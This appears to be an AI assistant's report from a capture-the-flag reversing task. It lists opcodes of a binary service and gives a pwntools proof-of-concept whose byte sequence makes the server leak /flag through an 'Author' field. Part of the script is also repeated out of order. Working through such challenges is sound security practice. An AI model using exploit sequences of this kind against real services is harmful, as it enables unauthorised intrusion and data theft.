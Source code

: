 ```python
idx = data.find(b"Author")
if idx != -1:
    # naive slice forward; adjust if you want a proper parser
    print("Found 'Author' near:", idx)
    print(data[idx:idx+256])

# clean close (optional)
io.send(b"\x11")
io.close()
```

If you want me to, I can add a small parser for the response format to cleanly extract the “Author” value.

- Other notes:
  - 0x31 sets (or replaces) the “Comment” field for the current item.
  - 0x20/0x21 navigate/select entries by index; 0x21 expects another byte with the index.
  - The “ncif” header in `verrryyy_interesting` is only for parsing uploaded containers; it’s not needed for the above exfil.

- Safety: the server forks per connection, drops privileges, and enforces an `ITIMER_REAL` timer; repeated errors log and close.

- Run tip: Dockerfile starts the binary as user `ico`, `PORT=4265`.

- Want a robust extractor or to enumerate other opcodes? I can implement a full response parser and map more commands.

- Very likely flag leak is immediate using 0x10, 0x22, then 0x32 + 0x01 on a fresh connection.

- I can also generate a single-file exploit that prints only the Author value if you prefer.

- Edits made:
  - None in repo; reversed via IDA MCP and provided a PoC.

- Impact:
  - Identified the exact remote sequence to extract `/flag` with no upload.

```python
from pwn import remote  # type: ignore
import os, sys, time

host = os.environ.get("HOST", "127.0.0.1")
port = int(os.environ.get("PORT", "4265"))

io = remote(host, port)

# handshake
io.send(b"\x10")       # enable
time.sleep(0.05)

# create default entry that copies /flag into "Author"
io.send(b"\x22")
time.sleep(0.05)

# request metadata bundle: Author (flag), Software, (Comment if set)
io.send(b"\x32" + b"\x01")   # 0x01 arbitrary small param

data = io.recv(timeout=2) or b""
print(f"len={len(data)} hex={data.hex()}")

# Heuristic extract: look for ASCII 'Author' then next string-ish bytes
idx = data.find(b"Author")
if idx != -1:
    # naive slice forward; adjust if you want a proper parser
    print("Found 'Author' near:", idx)
    print(data[idx:idx+256])

```